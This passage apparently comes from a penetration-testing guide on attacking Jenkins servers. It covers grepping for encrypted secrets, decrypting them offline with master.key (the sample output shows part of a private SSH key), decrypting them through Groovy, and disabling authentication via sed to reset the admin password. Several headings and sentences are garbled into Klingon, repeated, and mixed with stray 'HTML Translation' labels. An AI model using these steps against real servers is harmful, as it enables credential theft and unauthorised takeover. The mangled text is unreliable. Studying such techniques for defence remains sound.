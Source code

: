 * credentials.xml
* jobs/.../build.xml
* jobs/.../config.xml

**regex** **bIquv**:
```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```
#### Decrypt Jenkins secrets offline

If you have dumped the **needed passwords to decrypt the secrets**, use [**this script**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **to decrypt those secrets**.

#### jenqoq Jenkins secrets offline

vaj jImej **needed passwords to decrypt the secrets** vItlhutlh [**this script**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **to decrypt those secrets**.
```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
#### Decrypt Jenkins secrets from Groovy

##### tlhIngan Hol Translation:

#### Groovy vItlhutlh Jenkins secrets

##### HTML Translation:

<h4>Decrypt Jenkins secrets from Groovy</h4>

<h5>tlhIngan Hol Translation:</h5>

<h4>Groovy vItlhutlh Jenkins secrets</h4>
```bash
println(hudson.util.Secret.decrypt("{...}"))
```
### Create new admin user

1. Access the Jenkins config.xml file in `/var/lib/jenkins/config.xml` or `C:\Program Files (x86)\Jenkis\`
2. Search for the word `<useSecurity>true</useSecurity>`and change the word \*\*`true` \*\* to **`false`**.
1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Restart** the **Jenkins** server: `service jenkins restart`
4. Now go to the Jenkins portal again and **Jenkins will not ask any credentials** this time. You navigate to "**Manage Jenkins**" to set the **administrator password again**.
5. **Enable** the **security** again by changing settings to `<useSecurity>true</useSecurity>` and **restart the Jenkins again**.
